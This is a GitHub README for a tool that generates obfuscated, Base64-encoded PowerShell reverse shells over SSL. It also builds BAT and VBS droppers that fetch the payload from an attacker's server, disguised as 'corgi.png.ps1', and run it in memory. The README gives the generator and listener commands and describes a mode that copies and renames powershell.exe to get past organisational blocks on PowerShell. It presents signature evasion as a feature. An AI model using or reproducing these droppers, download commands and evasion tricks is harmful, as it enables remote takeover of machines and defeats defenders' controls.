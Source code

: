 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **VBS File Generation:** Create a VBS file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reverser
```

## Explain

The tool can generate Three types of files, as chosen by the user:
- A single PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
- An encoded BAT file that connects to a remote server to download and Execute the encoded PS1 file.
- A VBS file that connects to a remote server to download and Execute the encoded PS1 file.

The BAT and VBS files, during their initial request to the server to download the PS1 into memory, are executed over an encrypted channel using a Self-Signed Certificate. After downloading the PS1 file into memory, the BAT and VBS files will decode the script and establish an encrypted communication channel to create the Reverse Shell


This way, we can ensure that the communication is encrypted end-to-end.

## Usage

Creating only a PS1 file (obfuscated and Based64 encoded):
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type ps1
```
![image](https://github.com/user-attachments/assets/a52d08f3-e61f-4a41-be2c-43bbb29ce7d9)

Creating a VBS file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type vbs -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/ad71135d-a456-427c-a0e5-89bc95d0d4cf)

Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/download/photo/corgi.png.ps1>
```
![image](https://github.com/user-attachments/assets/91411dd0-7ef9-42d2-95c8-918fb3ba42c2)


-----------------------------

Opening The listeners:

Opening a listener with the OpenSSL server to receive the Reverse shell connection:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
open a listener with our server to handle the initial connection for downloading the PS1 file from the BAT/VBS file:
```bash
python3 listener.py -https_port|-http_port <Your_Listener_Server_PORT>
```


All The traffic is encrypted:
![image](https://github.com/user-attachments/assets/a2f21061-aa9c-425f-b631-0da774b01395)


Getting an encrypted Reverse Shell after downloading the PS1 file to the memory via encrypted connection:
![image](https://github.com/user-attachments/assets/eb34ed8a-e98c-4fed-b01d-f2bafdc00726)


# Update fot the Tool from 01/09/2024:
Update to the tool: I added the -lolbas flag. In this mode, the use of this flag will only apply when creating a VBS file. In scenarios where the use of powershell.exe is blocked within organizations, the script will create a VBS file that copies powershell.exe from its original path:

'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe'

to a new location where the user executing the payload has write permissions, and it will generate a new name for the powershell.exe file (each time, a different name will be generated).

This way, the download of the ReverseShell payload in PS1 format will run from the newly created powershell.exe file:

Creating the VBS file with using the lolbas:
![image](https://github.com/user-attachments/assets/ecff3611-e901-4f8b-be9e-bdcc4cded767)

The VBS file:
![image](https://github.com/user-attachments/assets/81a0bf66-265d-4288-a6df-5369637e2fad)

# Enjoy :)
